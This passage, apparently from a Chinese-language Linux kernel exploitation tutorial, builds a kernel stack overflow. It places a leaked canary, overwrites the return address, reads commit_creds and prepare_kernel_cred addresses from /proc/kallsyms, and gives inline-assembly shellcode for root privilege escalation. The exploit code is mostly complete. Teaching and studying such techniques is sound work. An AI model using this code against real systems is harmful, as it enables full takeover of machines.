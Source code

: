 下面我们就要覆盖返回地址了

```c
void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = canary;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = (unsigned long)pwned_addr; // ret

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}
```

### User shellcode

在用户态下我们的目的往往是执行`system("/bin/sh")`等，用来获取一个`shell`。在内核中，我们已经get shell了，但是权限却只是普通用户。我们需要得到一个`root shell`，来完全控制这个系统。

Linux系统下，每个进程拥有其对应的`struct cred`，用于记录该进程的uid。内核exploit的目的，便是修改当前进程的cred，从而提升权限。当然，进程本身是无法篡改自己的cred的，我们需要在内核空间中，通过以下方式来达到这一目的：

```c
commit_creds(prepare_kernel_cred(0));
```

其中，`prepare_kernel_cred()`创建一个新的cred，参数为0则将cred中的uid, gid设置为0，对应于root用户。随后，`commit_creds()`将这个cred应用于当前进程。此时，进程便提升到了root权限。

为此，我们需要寻找这两个函数的地址。因为`KASLR`被禁用了，我们以root权限启动的内核，可以通过打开`/proc/kallsyms`，来找到所有内核函数的地址。

```bash
/ # cat /proc/kallsyms |grep commit_creds
ffffffff814c6410 T commit_creds
ffffffff81f87d90 r __ksymtab_commit_creds
ffffffff81fa0972 r __kstrtab_commit_creds
ffffffff81fa4d42 r __kstrtabns_commit_creds
/ # cat /proc/kallsyms | grep prepare_kernel_cred
ffffffff814c67f0 T prepare_kernel_cred
ffffffff81f8d4fc r __ksymtab_prepare_kernel_cred
ffffffff81fa09b2 r __kstrtab_prepare_kernel_cred
ffffffff81fa4d42 r __kstrtabns_prepare_kernel_cred
```

这样我们就可以编写自己的shellcode了。

```c
void pwned_addr(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor rdi, rdi;"
	    "call rax; mov rdi, rax;"
	    "movabs rax, 0xffffffff814c6410;" //commit_creds
	    "call rax;"
        ...
        ".att_syntax;"
    );
}
```
